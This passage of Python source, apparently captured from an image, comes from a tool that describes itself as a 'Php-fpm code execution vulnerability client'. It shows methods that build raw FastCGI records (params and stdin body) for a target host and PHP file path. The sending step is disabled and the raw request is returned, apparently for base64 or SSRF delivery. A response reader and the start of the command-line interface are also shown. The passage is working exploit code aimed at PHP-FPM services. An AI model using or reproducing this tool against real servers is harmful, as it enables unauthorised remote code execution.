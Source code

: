 ```python
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
 
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
 
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
        #print base64.b64encode(request)
        return request
        # self.sock.send(request)
        # self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        # self.requests[requestId]['response'] = b''
        # return self.__waitForResponse(requestId)
 
    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf
 
        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']
 
    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)
 
 
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
```